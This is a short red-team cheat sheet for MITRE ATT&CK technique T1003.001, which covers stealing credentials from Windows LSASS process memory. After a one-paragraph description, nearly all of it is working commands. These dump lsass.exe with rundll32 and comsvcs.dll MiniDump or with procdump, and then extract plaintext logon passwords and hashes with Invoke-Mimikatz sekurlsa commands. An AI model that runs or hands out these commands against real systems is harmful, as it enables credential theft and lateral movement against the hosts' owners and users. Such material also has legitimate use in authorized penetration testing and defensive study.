

# LSASS Memory

### T1003.001 LSASS Memory

**Permissions Required:** <mark style="color:red;">**Administrator**</mark>** | **<mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

As well as in-memory techniques, the LSASS process memory can be dumped from the target host and analyzed on a local system.

## Techniques

### comsvcs.dll

```powershell
# Get lsass.exe PID
tasklist /fi "Imagename eq lsass.exe"

# Call comsvcs.dll and dump to file.
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \Windows\Temp\lsass_dump.dmp full

# Dump with Mimikatz
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

### Mimikatz

```powershell
Invoke-Mimikatz -DumpCreds
```


### Procdump

**URL:** [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

```batch
.\procdump.exe -accepteula -ma lsass.exe lsass_dump
```



`Mimikatz` can then be used to pull information from the `lsass_dump.dmp` file.

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```
